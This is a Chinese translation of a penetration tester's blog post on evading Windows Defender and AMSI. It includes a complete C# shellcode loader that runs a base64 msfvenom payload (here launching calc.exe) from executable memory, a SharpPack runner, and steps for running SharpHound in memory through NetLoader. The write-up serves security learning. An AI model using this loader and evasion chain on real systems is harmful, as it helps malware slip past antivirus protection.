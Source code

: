 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/9620)

> 先知社区，先知安全技术社区

> 本文为翻译文章, 原文地址:[https://arty-hlr.com/blog/2021/05/06/how-to-bypass-defender/#what-happens-when-stuff-is-not-on-disk](https://arty-hlr.com/blog/2021/05/06/how-to-bypass-defender/#what-happens-when-stuff-is-not-on-disk)

在最近的一次渗透测试中, 我有机会通过 RDP 在 AD 环境中花费一些时间来测试他们加固。从基本技术到更高级的技术，我学到了很多关于 DotNet，防病毒引擎如何工作以及如何绕过它们的知识。我确实在渗透测试中设法绕过了 Defender，并且运行了一些不错的东西，并且想为像我这样几天前对绕过防病毒软件经验很少的的人撰写一篇博客文章。欢迎享受阅读时光:)

AV 工作原理
-------

在我们深入探讨我尝试过的解决方案之前，让我们回顾一下 AV 如何处理磁盘上的文件 (无 AI, 基本来说):

*   签名检测
*   启发式检测
*   内存检测

### 签名

最基本功能且是最早地将文件或文件一部分的哈希值与已知的恶意文件的哈希值比较。这可以是整个文件的哈希，也可以只是恶意活动核心的几个字节或者字符串的哈希。

### 启发式

当签名不足或者没有签名时，防病毒学派下一个等级是正在考虑模拟运行在实际运行之前的可执行文件。这意味着要检查汇编指令或者代码行，并检查它们在运行时会发生什么。根据观察到的行为，AV 可以确定文件是恶意的，然后禁止文件在模拟后再运行。

### 当东西不在磁盘上时会发生什么?

最后要提到的重要一件事是 AMSI: Microsoft 对恶意软件的响应甚至没有触及磁盘。当磁盘上的可执行文件运行时，会在允许运行之前对其进行扫描 / 模拟，但是如果该可执行文件已在内存中并且从其他位置加载，那么会发生什么情况? AMSI 是 Window API，允许软件开发人员执行脚本 (例如 PowerShell, office 中的 VBA 宏, C# 程序集的反射) 来请求 AMSI 扫描, 然后再运行内存中的东西。

第一种方法: 更改字符串和混淆
---------------

因此, 让我们尝试绕过 AV 的第一层: 签名检测。我的第一次尝试是通过 [DefenderCheck](https://github.com/matterpreter/DefenderCheck), [Find-AVSignature](https://github.com/PowerShellMafia/PowerSploit/blob/master/AntivirusBypass/Find-AVSignature.ps1), 以及在 [AntiScan.me](https://antiscan.me/) 和 [VirusTotal](https://www.virustotal.com/gui/) 上进行手动扫描来运行 C# 版 SharpHound.exe 来试图找出代码中的那一部分触发了杀毒软件。通过反复试验，遍历文件越来越小的部分，你可以找出那些字符串触发了 AV 然后在 Visual Studio 中重构这些字符串，或者更改可执行文件的个别字节。最后一种方法的缺点是，当汇编指令被重写时，它很可能会破坏可执行文件，并且需要逆向工程去弄清楚更改了什么和是否能够修复，这需要花费时间和精力在反汇编的二进制代码上。这并不好，我们是懒惰的，我们不得不对每个要绕过 AV 的软件执行此操作。em...

另一种方法, 则是尝试修改代码, 以至于看起来不像任何东西了。我的意思是, 尝试去混淆源代码，诸如 [ConfuserEx 之类的](https://github.com/mkaring/ConfuserEx)工具可以针对. Net 应用程序执行此操作。这在一定程度上可行，几年前来说已经足够了，但现在依然不能绕过任何启发式检测。好吧，可以去试试。

第二种方法: 自制 C# 加载器
----------------

我的下一次尝试让我感到羞愧，但这是我尝试过的方法： 由于 WinAPI 的调用，我知道 Shellcode 运行程序可以在 C# 中执行 msfvenom 生成的有效负载。基本的加载器代码如下所示。

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;
using System.IO;

namespace Shellcode_Runner
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreatingFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            // msfvenom -p windows/exec cmd=calc.exe exitfunc=thread -a x64 -f base64
            string b64_payload = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu+AdKgpBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA";
            byte[] buf = System.Convert.FromBase64String(b64_payload);

            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            Thread.Sleep(10000);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

而且我很少想到, 如果我可以使用它允许 shellcode 执行, 为什么并不尝试在 base64 中加载整个 EXE 文件并像 shellcode 一样执行它。我的意思是为什么它不起作用? :D 显然, 我注意到 EXE 尤其是 C# 编译的 EXE 并不是 shellcode, 而且由于 PE 头文件的原因，显然无法加载整个 EXE 作为汇编指令执行。不要纠结 C# 实际上是怎么编译的，我记得有一段时间尝试将它作为一种托管语言并编译为中间代码... 甚至我做了使用 [pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode) 将其转换为 shellcode 的努力, 这将把 PE 头修改为可执行的 (显然仍然无法与 c# 一起使用) 或 [Donut](https://github.com/TheWover/donut)(这可以起作用吗? 不知道为什么不行) 没有带来任何成果。

但是，我写了一个 shellcode 加载器! 下一步是通过对有效负载加密来逃避签名检测， 并通过打乱我们的行为来逃避启发式检测。（这可能将在另一篇博文的主题, 在没有使用我最后的解决方案主要集中于绕过 AV 对 shellcode 的查杀)。因此，到我的下一个尝试。

第三种方法: 有效负载传递
-------------

因此，如果我无法足够混淆 C# 的可执行文件， 或者无法通过将其作为 shellcode 运行来绕过启发式分析，那么也许还有另一种不接触磁盘的方法。在 CRTE 训练营之前，我曾经使用过 [NetLoader](https://github.com/Flangvik/NetLoader)，但并没有真正地去了解它的用途和作用对象，但现在让我们开始 (稍微) 深入了解下:

NetLoader 是一种 C# 工具, 可通过反射从路径, URL, 或 SMB 共享加载 C# 程序集 (该主题是另一个博客的，但可以将其视为 shellcode 加载器但是作用对象是 c# 程序集) 并通过修补 AMSI 来绕过它。这意味着恶意的 c# 可执行文件根本不需要接触磁盘，这对我们来说是一件好事，因为它绕过了 AMSI(后面文章的另一个主题), 这可能意味着完全绕过了 Defender。唯一的事情是，它将被允许执行吗？ 好吧, 显然微软没有为 NetLoader 添加签名，正因为这样才不会被阻止运行。

首次成功: 运行任何恶意的 C# 可执行文件！

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210529000346-482dd886-bfce-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210529000346-482dd886-bfce-1.png)

但这对我来说还不够，我还希望能够允许 PowerShell 脚本...... 但这在 NetLoader 上不起作用，因此转到另一个用于进行有效负载传递和 AMSI 绕过的工具 [SharpPack](https://github.com/mdsecactivebreach/SharpPack):

为了达到我的目的，SharpPack 需要进行一些重构，因为该项目默认会编译为 DLL, 这对于更安全方式而言有意义，像 [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) 或者 Office VBA 宏中的方式，如[本](https://www.mdsec.co.uk/2018/12/sharppack-the-insider-threat-toolkit/)博客文章中所述，我只想要一个普通的 C＃可执行文件，然后我将其与 NetLoader 一起运行。

我将项目更改为编译 exe，并添加了一个 main:

```
using System;
using SharpPack;

namespace SharpPackRunner
{
    class Program
    {
        static void usage()
        {
            System.Console.WriteLine("Usage: SharpPackRunner.exe -D/-P <encpath> <encpass> <outfile> <name> <args>");
            return;
        }
        static void Main(string[] args)
        {
            if (args.Length != 6)
            {
                usage();
                return;
            }

            var sp = new SharpPackClass();
            if (String.Equals(args[0], "-D"))
                sp.RunDotNet(args[1], args[2], args[3], args[4], args[5]);
            else if (String.Equals(args[0], "-P"))
                sp.RunPowerShell(args[1], args[2], args[3], args[4], args[5]);
            else
                usage();
        }
    }
}
```

(我一直在寻找一种更优雅的解决方案，例如像 Python 中 * array 那样将数组解压为参数，但显然在 C# 中，如果不重构该方法，这是不可能的)

因此，最终我获得了可以与 NetLoader 一起运行的 C# 可执行文件，并且可以从加密的 zip 文件中提取出恶意的 c# 恶意代码，然后运行它，并发送输出到文本文件。可以更改代码以从 URL 或 NetLoader 之类的共享去加载可执行文件和脚本并显示输出而不是将其发送到文本文件，这样磁盘上就什么都没有了，但是说实话没有太多时间去深入研究源代码了。

我在 SharpHound.ps1 脚本的末尾添加了一行`Invoke-BloodHound -CollectionMethod All`以加载和运行 SharpHound(虽然再次阅读 MDSec 的博客文章，我可能已经将该行作为 SharpPack 的最后一个参数了)，现在可以运行 PowerShell 脚本了。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210529000318-37dcacc8-bfce-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210529000318-37dcacc8-bfce-1.png)

我的任务完成了!

结论
--

我确实设法绕过了 Defender, 在此过程中我学到了很多有关防病毒软件的知识，但是我并没有深入研究绕过 AMSI 和 C# 中的反射机制，这可能是将来博客文章中的主题。我希望这篇文章是足够清晰的，如果我在解释上有任何错误，请在 issue 或 Discord(arty-hlr#1427) 告知我。